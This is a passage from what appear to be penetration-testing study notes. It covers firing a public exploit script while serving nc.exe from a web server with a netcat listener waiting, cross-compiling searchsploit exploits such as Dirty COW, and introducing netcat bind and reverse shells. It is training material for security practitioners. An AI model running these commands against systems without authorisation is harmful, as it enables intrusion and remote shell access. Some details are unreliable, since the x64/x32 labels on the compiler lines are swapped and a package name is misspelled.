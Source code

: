 You must set the **local IP address** and the **local port number listener** by yours.

```bash
kali@kali> cp /usr/share/windows-resources/binaries/nc.exe .
```

Before executing python script, create a web server `python -m SimpleHTTPServer 80` in a terminal and a netcat listener `nc -lnvp <port_listener>` on a second one.

```bash
kali@kali> python 39161.py 10.3.19.221 80
```

#### Cross-compiling exploits

* In certains cases, exploit code will be developed in C/C++/C#, as a result, you will need to compile the exploit code in to a PE (Portable Executable) or binary.
* Cross-compiling is the process of compiling code for a platform other than the one performing the compilation.
* As a penetration tester, you will need to have the skills necessary to compile exploit code developed in C.

To compile C code into Windows executable, you need `minwg-w64` and `gcc` dependencies.

```bash
# windows
kali@kali> sudo apt-get install mingw-w64 -y
kali@kali> sudo apt-get install gcc -y
kali@kali> searchsploit video lan smb
kali@kali> searchsploit -m 9303

kali@kali> i686-w64-mingw32-gcc 9303.c -o exploit           # x64
kali@kali> i686-w64-mingw32-gcc 9303.c -o exploit -lws2_32  # x32
```

```bash
# linux
kali@kali> searchsploit dirty cow
kali@kali> searchsploit -m 40839

kali@kali> gcc -pthread 40839.c -o exploit -lcrypt
```

### Bind and reverse shells

#### Netcat

* Netcat (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.
* Netcat is available for both \*NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements.
* Netcat utilizes a client-server communication architecture with 2 modes :
  * Client mode : Netcat can be used in client mode to connect to any TCP/UDP port as well as Netcat listener (server).
  * Server mode : Netcat can be used to listen for connections from clients on a specific port.
*   Netcat can be used by penetration testers to perform the following functionality :
